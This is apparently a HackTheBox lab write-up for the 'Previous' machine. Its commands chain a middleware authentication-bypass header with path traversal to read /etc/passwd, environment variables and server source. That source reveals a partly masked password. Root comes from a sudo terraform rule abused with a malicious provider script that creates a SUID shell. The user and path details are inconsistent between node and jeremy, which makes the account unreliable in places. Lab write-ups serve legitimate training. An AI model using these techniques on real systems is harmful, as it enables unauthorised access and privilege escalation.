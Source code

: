 # Previous

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

### 🏁 Summary of Attack Chain

| Step | User / Access | Tools / Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `(Web)` | **Port & Service Enumeration** | Identified **nginx 1.18.0** on port 80. Discovered the **/api/download** endpoint. |
| 2 | `(Web)` | **Vulnerability Research & LFI** | Found a bypass for the `PreviousJS` authentication using the `X-Middleware-Subrequest` header. Combined this with a **Local File Inclusion (LFI)** vulnerability on the `example` parameter of the `/api/download` endpoint. |
| 3 | `(Web)` | **Information Gathering** | Used the LFI to read `/etc/passwd` and `/proc/self/environ`, identifying the `node` and `nextjs` users and the application path `/app`. |
| 4 | `(Web)` | **File Enumeration** | Used the LFI to access the Next.js build output, specifically `/app/.next/routes-manifest.json`, to gather more information about the application's structure. |
| 5 | `node` | **File Enumeration** | Found that user `node` could run **`/usr/bin/terraform`** as **root** with specific options via `sudo -l`. |
| 6 | `root` | **Privilege Escalation** | Exploited the `terraform` sudo permission by creating a **malicious provider binary** and a custom CLI configuration file. This forced `terraform` to execute our script as `root`. |
| 7 | `root` | **System Access** | Our malicious script created a SUID shell at `/tmp/rootsh`, allowing us to execute it as **root** and read the `root.txt` flag. |



### Initial Reconnaissance 

Let's start by scanning the target machine previous.htb to see what ports are open and what services are running.

Bash
```
nmap previous.htb -A
```
Port 22/tcp: Open, running OpenSSH 8.9p1 on Ubuntu.

Port 80/tcp: Open, running an nginx 1.18.0 web server on Ubuntu. The title of the page is "PreviousJS."

The web server on port 80 is our primary target. Let's explore the website and look for any interesting files or directories.

**Web Enumeration and LFI**

The homepage is for a web framework called "PreviousJS." After clicking "Get Started," you're taken to a login page.

Since we don't have credentials, we'll use dirsearch to find hidden directories and files. Let's run it on the root of the site.

Bash
```
dirsearch -u http://previous.htb
```

This returns a bunch of 307 Redirect responses, all pointing to /api/auth/signin. This tells us that most of the API endpoints require authentication.

Let's look for a known vulnerability. A search for "PreviousJS" vulnerabilities might lead us to a specific bypass. We find a vulnerability that can be exploited by adding a specific HTTP header: x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware. This header bypasses the authentication middleware.

Now we can use dirsearch again, but this time, we'll add the bypass header and target the /api/ directory.

Bash
```
dirsearch -u http://previous.htb/api -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
```

This scan reveals a peculiar path that returns a 400 Bad Request: /api/download. The "Bad Request" error suggests we're close, but the request isn't quite right. It's likely missing a required parameter.

Let's fuzz for parameters on this endpoint using ffuf to see if we can find one that works.

Bash
```
ffuf -u 'http://previous.htb/api/download?FUZZ=a' -w /usr/share/fuzzDicts/paramDict/AllParam.txt -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -mc all -fw 2
```

The scan identifies an example parameter. When we test it with curl, we get a "File not found" error, confirming that this parameter is likely for a file download function.

Bash

```
curl 'http://previous.htb/api/download?example=aaa' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware' -v
```

This looks like a potential Local File Inclusion (LFI) vulnerability. Let's try to read a standard system file, /etc/passwd. We'll use the LFI vulnerability with directory traversal (../../../../) to access the file system.

Bash
```
curl 'http://previous.htb/api/download?example=../../../../etc/passwd' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```

This works! The command successfully retrieves the contents of /etc/passwd. The output shows two users of interest: node and nextjs.


![Path_Traversal](Pictures/htb_Previous_path_tra.png)

node:x:1000:1000::/home/node:/bin/sh

nextjs:x:1001:65533::/home/nextjs:/sbin/nologin

The node user's shell is /bin/sh, which is a good sign. We should check for interesting files within their home directories.

Let's use the LFI to check the process environment variables, which can reveal secrets or application paths.

Bash

```
curl 'http://previous.htb/api/download?example=../../../../proc/self/environ' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```

![ENV](Pictures/htb_Previous_env.png)

This reveals that the application is running in /app as the nextjs user.

The environment variable PWD=/app confirms the application's working directory. Next.js applications have a predictable file structure. We can look for configuration or source files, especially the routes-manifest.json file inside the .next directory, which can expose API endpoints and other information.

Bash
```
curl 'http://previous.htb/api/download?example=../../../../app/.next/routes-manifest.json' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware' -s | jq
```

![exp](Pictures/htb_Previous_conf.png)

bash

```
curl 'http://previous.htb/api/download?example=../../../../app/.next/server/pages/api/auth/%5B...nextauth%5D.js' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'   
```

![Source](Pictures/htb_Previous_Auth_Logic.png)


```
"use strict";
(() => {
    var e = {};
    e.id = 651, e.ids = [651], e.modules = {
        3480: (e, n, r) => {
            e.exports = r(5600)
        },
        5600: e => {
            e.exports = require("next/dist/compiled/next-server/pages-api.runtime.prod.js")
        },
        6435: (e, n) => {
            Object.defineProperty(n, "M", {
                enumerable: !0,
                get: function() {
                    return function e(n, r) {
                        return r in n ? n[r] : "then" in n && "function" == typeof n.then ? n.then(n => e(n, r)) : "function" == typeof n && "default" === r ? n : void 0
                    }
                }
            })
        },
        8667: (e, n) => {
            Object.defineProperty(n, "A", {
                enumerable: !0,
                get: function() {
                    return r
                }
            });
            var r = function(e) {
                return e.PAGES = "PAGES", e.PAGES_API = "PAGES_API", e.APP_PAGE = "APP_PAGE", e.APP_ROUTE = "APP_ROUTE", e.IMAGE = "IMAGE", e
            }({})
        },
        9832: (e, n, r) => {
            r.r(n), r.d(n, {
                config: () => l,
                default: () => P,
                routeModule: () => A
            });
            var t = {};
            r.r(t), r.d(t, {
                default: () => p
            });
            var a = r(3480),
                s = r(8667),
                i = r(6435);
            let u = require("next-auth/providers/credentials"),
                o = {
                    session: {
                        strategy: "jwt"
                    },
                    providers: [r.n(u)()({
                        name: "Credentials",
                        credentials: {
                            username: {
                                label: "User",
                                type: "username"
                            },
                            password: {
                                label: "Password",
                                type: "password"
                            }
                        },
                        authorize: async e => e?.username === "jeremy" && e.password === (process.env.ADMIN_SECRET ?? "MyNaXXXXXXXXXXXXXXXXakes") ? {
                            id: "1",
                            name: "Jeremy"
                        } : null
                    })],
                    pages: {
                        signIn: "/signin"
                    },
                    secret: process.env.NEXTAUTH_SECRET
                },
                d = require("next-auth"),
                p = r.n(d)()(o),
                P = (0, i.M)(t, "default"),
                l = (0, i.M)(t, "config"),
                A = new a.PagesAPIRouteModule({
                    definition: {
                        kind: s.A.PAGES_API,
                        page: "/api/auth/[...nextauth]",
                        pathname: "/api/auth/[...nextauth]",
                        bundlePath: "",
                        filename: ""
                    },
                    userland: t
                })
        }
    };
    var n = require("../../../webpack-api-runtime.js");
    n.C(e);
    var r = n(n.s = 9832);
    module.exports = r
})();
```

The output confirms our suspicion that there are more API routes, specifically /api/auth/[...nextauth], which is the authentication logic we were trying to bypass initially.

We have a user node, and we know the application is related to Next.js. We need to find a way to pivot from our LFI to get a shell.

Which contains the user credentials we want

```
username: jeremy
password: MyNaXXXXXXXXXXXXXXXXXXes
```

```
ssh jeremy@previous.htb
```

![USER_FLAG](Pictures/htb_Previous_User_flag.png)

You can log in directly here


### User Exploitation and Privilege Escalation 🛡️

By looking at the sudo -l output for the node user on the box, we can see that they have a very specific, limited sudo permission. This is often a way to provide a controlled path for privilege escalation.

Bash

```
sudo -l
User node may run the following commands on previous:
    (root) /usr/bin/terraform -chdir=/opt/examples apply
```

![Priv](Pictures/htb_Previous_sudo_miscon.png)


The user node can run the terraform command as root, specifically terraform -chdir=/opt/examples apply. This is an interesting find. The -chdir flag means Terraform will run in the /opt/examples directory. Let's see what's in there.

Inside /opt/examples, we find a main.tf file. Terraform is a tool for managing infrastructure as code. It uses a provider to interact with a specific API or service. The main.tf file specifies a provider: source = "previous.htb/terraform/examples".

Normally, Terraform fetches providers from a public registry. However, we can use the TF_CLI_CONFIG_FILE environment variable to tell Terraform to use a local provider instead. This is how we'll inject our malicious code.

![FILE](Pictures/htb_Previous_TF_Cli_file.png)

**We'll create a malicious provider binary that, when executed by Terraform, creates a SUID shell. Terraform expects the provider binary to be in a specific location and to follow a naming convention: terraform-provider-[provider_name]_[version]_[os]_[arch].**

### Steps to get a root shell:

**1. Prepare your working directory**

Create a directory to hold your malicious provider.

Bash
```
mkdir -p ~/privesc
cd ~/privesc
```

**2. Create the malicious provider binary**

We'll create a shell script that copies /bin/bash to /tmp/rootsh and sets the SUID bit on it. This will allow us to run it with root privileges.

Bash
```
cat > terraform-provider-examples_v0.1_linux_amd64 <<'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootsh
chmod 04755 /tmp/rootsh
EOF
chmod +x terraform-provider-examples_v0.1_linux_amd64
```

**3. Create the Terraform CLI configuration file**

This file will tell Terraform to use our local provider instead of fetching it from the internet. The dev_overrides key must match the source string from /opt/examples/main.tf exactly.

Bash

```
cat > dev.tfrc <<'HCL'
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/home/node/privesc"
  }
  direct {}
}
HCL
```
Note: The path in the dev_overrides must be the absolute path to your malicious provider's directory.

**4. Set the environment variable**

We need to tell the sudo command to use our custom configuration file.

Bash

```
export TF_CLI_CONFIG_FILE=/home/node/privesc/dev.tfrc
```

![CLI_CONF](Pictures/htb_Previous_conf_all.png)

**5. Execute the sudo command**

Now, run the exact command that sudo -l allows. We'll use yes to automatically confirm the prompt.

Bash
```
yes | sudo /usr/bin/terraform -chdir=/opt/examples apply
```

Note: Terraform might show errors after this, but that's okay. The malicious script has already been executed as root during the provider loading process.

**6. Verify the SUID shell**

Check to see if /tmp/rootsh was created and has the SUID bit set.

Bash
```
ls -l /tmp/rootsh
```

The output should look like this: -rwsr-xr-x 1 root root ..., with the s indicating it is a SUID binary.

7. Get the root shell
Now, execute the SUID shell to become root and get the flag.

Bash
```
/tmp/rootsh -p
```

The -p flag is crucial as it ensures that the effective user ID is retained as root, even though the real user ID is node.

Bash

```
cat /root/root.txt
```

![ROOT_FLAG](Pictures/htb_Previous_Root_flag.png)

Congratulations, you are now root! 🥳


**Pwned! Previous**


**8) cleanup (optional, good practice)**

From the root shell (or after finishing), remove the SUID shell and provider artefacts:

Bash

```
rm -f /tmp/rootsh
rm -f /home/jeremy/privesc/terraform-provider-examples_v0.1_linux_amd64
rm -f /home/jeremy/privesc/dev.tfrc

```
**Troubleshooting tips**

dev.tfrc key mismatch → Terraform will complain Invalid provider namespace. Ensure the dev_overrides key exactly equals the source string from main.tf.

provider not executable → make sure chmod +x was run.

Terraform shows plugin protocol errors — expected; these errors don’t prevent the provider script from being executed.

If /tmp/rootsh is not SUID — confirm your provider script ran (check timestamps, Terraform output). If it didn’t run, double-check TF_CLI_CONFIG_FILE export and the exact sudo command used.

-->